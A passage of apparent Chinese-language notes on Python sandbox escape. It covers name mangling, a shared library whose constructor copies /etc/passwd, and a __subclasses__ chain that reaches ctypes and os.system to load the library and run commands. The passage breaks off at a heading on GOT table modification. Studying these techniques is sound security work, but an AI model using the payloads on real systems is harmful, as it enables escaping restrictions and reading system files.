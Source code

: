 ```py
```

---

## 伪 private 属性和函数

Python 中以双下划线开头的函数和属性是 private 的，但是这种 private 只是形式上的，表示这个函数不应该在本类之外的地方进行访问，而是否遵守则取决于具体的实现。公有的函数和属性，使用其名字直接进行访问；而私有的属性和函数，使用 `下划线+类名+函数名` 进行访问：

```py
class A():
    __a = 1
    b = 2
    def __c(self):
        pass
    def d(self):
        pass

print dir(A)
```

---

## 构造 so 库

编译一个 so 库，并写入指定的路径：

```c
// gcc test.c -shared -fPIC -o test.so

tee test.c <<-'EOF'
void my_init() __attribute__((constructor));
void my_init() {
    system("cat /etc/passwd > /tmp/passwd_bak");
}
EOF
```

调用 ctypes 来载入 so 库：
```py
# ''.__class__.__mro__[-1].__subclasses__()[235] => ctypes.CDLL
# ''.__class__.__mro__[-1].__subclasses__()[236] => ctypes.LibraryLoader

''.__class__.__mro__[-1].__subclasses__()[236](''.__class__.__mro__[-1].__subclasses__()[235]).LoadLibrary('test.so')

''.__class__.__mro__[-1].__subclasses__()[40]('/usr/lib/python2.7/os.py').read()
__import__('os').system('cat /tmp/passwd_bak')
```

---

## 修改 GOT 表
